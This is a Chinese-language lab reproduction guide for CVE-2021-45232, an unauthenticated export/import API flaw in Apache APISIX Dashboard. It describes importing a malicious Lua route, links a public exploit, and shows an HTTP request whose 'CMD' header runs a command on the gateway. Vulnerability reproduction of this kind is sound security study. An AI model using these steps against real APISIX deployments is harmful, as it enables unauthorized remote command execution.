


# Apache APISIX Dashboard API 权限绕过导致 RCE（CVE-2021-45232）

Apache APISIX 是一个动态、实时、高性能 API 网关，而 Apache APISIX Dashboard 是一个配套的前端面板。

Apache APISIX Dashboard 2.10.1 版本前存在两个 API `/apisix/admin/migrate/export` 和 `/apisix/admin/migrate/import`，他们没有经过 `droplet` 框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。攻击者通过导入恶意路由，可以用来让 Apache APISIX 访问任意网站，甚至执行 LUA 脚本。

参考链接：

- https://apisix.apache.org/zh/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## 漏洞环境

执行如下命令启动一个有漏洞的 Apache APISIX Dashboard 2.9：

```
docker compose up -d
```

然后访问 `http://your-ip:9000/` 即可看到 Apache APISIX Dashboard 的登录页面。

## 漏洞复现

利用 `/apisix/admin/migrate/export` 和 `/apisix/admin/migrate/import` 两个 Apache APISIX Dashboard 提供的未授权 API，我们可以简单地导入一个恶意配置文件，其中包含我们构造的 LUA 脚本：



注意的是，这个配置文件的最后 4 个字符是当前文件的 CRC 校验码，所以最好通过自动化工具来生成和发送这个利用数据包，比如 [这个 POC](https://github.com/wuppp/cve-2021-45232-exp)。

添加完恶意路由后，你需要访问 Apache APISIX 中对应的路径来触发前面添加的脚本。值得注意的是，Apache APISIX 和 Apache APISIX Dashboard 是两个不同的服务，Apache APISIX Dashboard 只是一个管理页面，而添加的路由是位于 Apache APISIX 中，所以需要找到 Apache APISIX 监听的端口或域名。

在当前环境下，Apache APISIX 监听在 9080 端口下。我们发送数据包：

```
GET /okw1Rh HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0


```



可见，我们在 Header 中添加的 `CMD` 头中的命令已被执行。

这个漏洞是 Apache APISIX Dashboard 的漏洞，而 Apache APISIX 无需配置 IP 白名单或管理 API，只要二者连通同一个 etcd 即可。
